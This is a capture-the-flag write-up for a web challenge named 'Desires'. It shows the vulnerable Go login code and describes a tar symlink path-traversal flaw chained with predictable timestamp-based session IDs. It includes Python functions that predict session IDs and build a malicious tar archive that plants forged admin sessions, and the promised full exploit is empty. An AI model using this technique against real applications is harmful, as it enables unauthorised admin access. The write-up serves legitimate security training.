






# Challenge: Desires
## Rate: Easy

The challenge features a web application with a specific vulnerability centered around tar archive uploads, where file upload functionalities can introduce critical security flaws if not properly implemented.
Reviewing the source code reveals that the goal is to access the `/user/admin`, which requires admin privileges. 
Analyzing further, the archive extraction is handled by the archiver library, which has **CVE-2024-0406**, which is about the  **Zip Slip** vulnerability.

After that, the `sessionID` is a SHA256 hash of the current timestamp:

```go
sessionID := fmt.Sprintf("%x", sha256.Sum256([]byte(strconv.FormatInt(time.Now().Unix(), 10))))
```

As you can see, it is predictable, so we can chain it with Zip Slip and upload files with the predicted session ID. But the problem is that the successful login attempt leads to overwriting the malicious session.

Further analysis reveals that the session ID is set before verifying the credentials:

```go
func LoginHandler(c *fiber.Ctx) error {
	var credentials Credentials
	if err := c.BodyParser(&credentials); err != nil {
		return utils.ErrorResponse(c, err.Error(), http.StatusBadRequest)
	}

	sessionID := fmt.Sprintf("%x", sha256.Sum256([]byte(strconv.FormatInt(time.Now().Unix(), 10))))

	err := PrepareSession(sessionID, credentials.Username)

	if err != nil {
		return utils.ErrorResponse(c, "Error wrong!", http.StatusInternalServerError)
	}

	user, err := loginUser(credentials.Username, credentials.Password)
	if err != nil {
		return utils.ErrorResponse(c, "Invalid username or Password", http.StatusBadRequest)
	}
```

So the exploitation steps are as follows:

1. Register on the web and log in with the correct credentials to achieve a session cookie.
    
    
    
    
    
2. Make a list of predicted session IDs for future login attempts. (Consider removing your current session ID from the list because it already exists)
    
    ```python
    def predict_session_id(self, ts: int) -> str:
            return hashlib.sha256(str(ts).encode()).hexdigest()
    ```
    
3. Make a malicious TAR file based on CVE-2024-0406
    
    ```python
    def create_malicious_archive(self, admin_session_json: str) -> bool:
            try:
                with tarfile.open(self.archive_name, "w") as tar:
                    symlink_info = tarfile.TarInfo(name=self.symlink_name)
                    symlink_info.type = tarfile.SYMTYPE
                    symlink_info.linkname = "/tmp/sessions/test/"
                    tar.addfile(symlink_info)
    
                    current_ts = int(time.time())
                    # Create a range of session IDs to cover potential time skews
                    for i in range(self.session_id_count):
                        ts = current_ts - self.session_id_count // 2 + i  # creates session_id range around current time
                        predicted_session_id = self.predict_session_id(ts)
    
                        # Exclude specified session ID
                        if self.exclude_session_id and predicted_session_id == self.exclude_session_id:
                            print(f"[-] Excluding session ID: {predicted_session_id}")
                            continue
    
                        # Append session ID to the global list
                        DesiresExploit.session_id_list.append(predicted_session_id)
    
                        payload_info = tarfile.TarInfo(name=f"{self.symlink_name}/{predicted_session_id}")
                        payload_info.size = len(admin_session_json)
                        tar.addfile(payload_info, io.BytesIO(admin_session_json.encode('utf-8')))
    
                print(f"[+] Created malicious archive {self.archive_name} with {self.session_id_count} session IDs")
                return True
            except Exception as e:
                print(f"[-] Error creating archive: {e}")
                return False
    ```
    
4. Upload the malicious file
    
    
    
5. Log in with the wrong password
    
    
    
6. Send a request to `/user/admin` path using the predicted session ID 
    
    

Here is the full exploit code: 

    
